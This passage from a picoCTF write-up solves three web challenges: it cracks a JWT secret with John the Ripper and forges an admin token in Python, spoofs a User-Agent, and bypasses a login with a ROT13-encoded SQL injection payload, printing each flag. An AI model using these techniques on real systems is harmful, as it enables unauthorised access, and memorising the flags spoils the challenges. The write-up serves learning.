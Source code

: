 I found a link to the `John the Ripper` tool, so I assumed I needed to crack the `JWT key` using `rockyou.txt`

```
command: john token --wordlist=../wordlist/rockyou.txt --format=HMAC-SHA256
```

![image](https://hackmd.io/_uploads/r1imTK3qJx.png)

`secret_key: ilovepico`

Now, we just need to create a JWT with the payload
```
{
  "user": "admin"
}
```
 and with secret_key just found
 
`script`
```python
import jwt

payload = {"user": "admin"}

secret_key = "ilovepico"

token = jwt.encode(payload, secret_key, algorithm="HS256")

print(f"JWT Token: {token}")
#JWT Token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiYWRtaW4ifQ.di2J1a0H3IhZtGmIfw7ltVq7sZL2orh8WIP1isDkgdw
```

![image](https://hackmd.io/_uploads/Sk1YAY25Jg.png)

`Flag: picoCTF{jawt_was_just_what_you_thought_f859ab2f}`

### picobrowser
`Description`
```
This website can be rendered only by picobrowser, go and catch the flag! https://jupiter.challenges.picoctf.org/problem/26704/ (link) or http://jupiter.challenges.picoctf.org:26704
```

We just need to set the browser to `picobrowser`, and we're done.
```
User-Agent: picobrowser
```

![image](https://hackmd.io/_uploads/ryPr1q3cJx.png)


`Flag: picoCTF{p1c0_s3cr3t_ag3nt_e9b160d0}`

### Irish-Name-Repo 3
`Description`
```
There is a secure website running at https://jupiter.challenges.picoctf.org/problem/54253/ (link) or http://jupiter.challenges.picoctf.org:54253. Try to see if you can login as admin!
```

After several attempts, I realized that the `password` was `encrypted` using a `Caesar cipher` with a `key of 13 (ROT13)`. Then, I reused the payload: `' BE 1=1 --` to bypass authentication.

![image](https://hackmd.io/_uploads/rJn6Z9nckg.png)

`Flag: picoCTF{3v3n_m0r3_SQL_7f5767f6}`

